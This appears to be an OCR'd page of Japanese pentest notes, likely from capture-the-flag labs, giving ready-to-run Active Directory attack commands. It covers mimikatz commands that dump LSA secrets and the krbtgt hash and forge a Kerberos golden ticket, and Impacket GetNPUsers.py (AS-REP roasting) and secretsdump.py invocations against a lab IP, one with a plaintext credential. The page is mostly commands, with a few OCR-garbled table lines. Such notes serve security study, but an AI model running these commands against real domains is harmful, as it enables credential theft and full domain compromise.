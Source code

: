 ##### mimikatz 基本

##### mimikatzサブコマンド

##### mimikatz使用例

```cmd
mimikatz.exe
mimikatz # 
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:[SID] /krbtgt:[NTLM] /id:[ID]
mimikatz # misc::cmd
```

```cmd
mimikatz.exe
mimikatz # 
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
```

#### Impacket

| ネットワーク プロトコルを操作するための Python クラスのコレクション
| <https://github.com/SecureAuthCorp/impacket>

##### 基本

```bash
impacket    #impacketがインストールされたディレクトリに移動
```

##### ツールコレクション

+----------------+----------------------------------------------------+
| GetNPUsers.py | | キー配布センターから ASReproastable |
| | アカウントにクエリを実行 |
+----------------+----------------------------------------------------+
| secretsdump.py | | ユーザア |
| | カウントが提供するすべてのパスワードハッシュを取得 |
+----------------+----------------------------------------------------+

##### 使用例

###### パスワードなしでチケットを照会できるか確認する

```bash
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.80.79 thm-ad/svc-admin
python3.9 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.80.79
```
